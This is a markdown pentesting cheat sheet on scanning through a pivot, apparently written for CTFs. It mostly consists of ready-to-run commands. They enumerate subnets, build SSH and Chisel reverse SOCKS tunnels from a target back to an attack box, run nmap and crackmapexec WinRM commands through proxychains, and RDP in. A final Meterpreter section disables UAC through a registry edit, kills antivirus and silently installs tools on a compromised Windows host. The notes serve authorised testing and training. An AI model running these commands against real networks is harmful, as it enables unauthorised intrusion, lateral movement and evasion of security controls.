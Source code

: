 # Scanning though a pivot    
## Contents    
- [Scanning though a pivot](#scanning-though-a-pivot)
  * [Contents](#contents)
  * [Subnet Enumeration Commands](#subnet-enumeration-commands)
  * [ProxyChains](#proxychains)
    + [SSH Dynamic Tunnels](#ssh-dynamic-tunnels)
    + [Chisel](#chisel)
    + [Nmap scan through a dynamic SOCKS proxy](#nmap-scan-through-a-dynamic-socks-proxy)
    + [Web access:](#web-access-)
    + [Use WinRM through proxychains](#use-winrm-through-proxychains)
    + [RDP through ProxyChains](#rdp-through-proxychains)
  * [Uploading Static Binaries](#uploading-static-binaries)
  
## Subnet Enumeration Commands    
Build an IP list then scan using nmap over proxychains    
Linux  
 
    ip a   
    arp -a
    cat /etc/hosts
    cat /etc/resolv.conf  
    netstat -antp    
    for x in {1..254};do (ping -c 1 10.1.1.$x | grep "bytes from" &); done | cut -d " "    
Windows     

    ipconfig   
## ProxyChains    
Use tools like ProxyChains to scan new hosts without dropping tools to disk.     
/etc/proxychains.conf #config file. Specify SOCKS4/5 proxy    
### SSH Dynamic Tunnels     
Set up an SSH dynamic tunnel through a bastion host to scan an internal subnet using creds:      

    ssh -D 9050 user@bastion -N -f      
### Chisel   
Set up a reverse tunnel using [Chisel](https://github.com/jpillora/chisel):    
(For CTFs you will most likely need the AMD64/x86_64 binary)       

    ./chisel server -p 8001 --reverse        #start Chisel server on attack box   
    ./chisel client 10.10.10.10:8001 R:1080:socks    #connect from to it from a client target server  
    # add 'socks5 127.0.0.1 1080 ' to /etc/proxychains.conf  
### Nmap scan through a dynamic SOCKS proxy  
Only -sT will work - can be a bit slow with an SSH tunnel so setting up a Chisel proxy might be a better option:        

    proxychains nmap 10.10.10.10 -sT -p 80, 443     
    proxychains nmap -iL ips.txt -sT -sV   
### Web access:    

    Use FoxyProxy Firefox extension and add a SOCKS5 proxy 127.0.0.1:9050 to access a site through a dynamic tunnel   
[Using Burp Through a SOCKS5 Proxy](https://dev.to/adamkatora/how-to-use-burp-suite-through-a-socks5-proxy-with-proxychains-and-chisel-507e)    

    Use Burp Upstream Proxies feature to add SOCKS5 proxy - set FoxyProxy Firefox addon to Burp proxy     
    Burp -> Settings (upper right corner) -> Network -> Connections -> SOCKS Proxy             
    Select the option 'Override options for this project only'. Options: 127.0.0.1, 1080, use SOCKS proxy     
    
    Drop out of scope requests so bad DNS requests don't cause pages to load forever    
    settings -> Project -> Scope -> Drop all out of scope requests    

### Use WinRM through proxychains         

    proxychains crackmapexec winrm 10.10.10.10 -u "USERNAME" -p "PASSWORD" -x "command"    
### RDP through ProxyChains       

    proxychains xfreerdp /u:DOMAIN\\username /p:password /v:ip      

## Uploading Static Binaries    
Use static binaries from [here](https://github.com/ernw/static-toolbox) or [here](https://github.com/andrew-d/static-binaries)     
Upload nmap binary to a Windows target (through meterpreter and scan)      

    meter > upload nmap_binary      
    meter > shell     
    #then disable UAC  
    C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f     
    meter > killall av       #turn off AV
    meter > shutdown /r    
    #wait a few minutes then renew the Meterpreter session    
    meter > nmap-setup.exe /S   #install nmap silently   
Upload nmap binary to a Linux target (through meterpreter and scan)      

    meter > upload nmap . 
    chmod +x run-nmap.sh   
    ./run-nmap.sh   
    
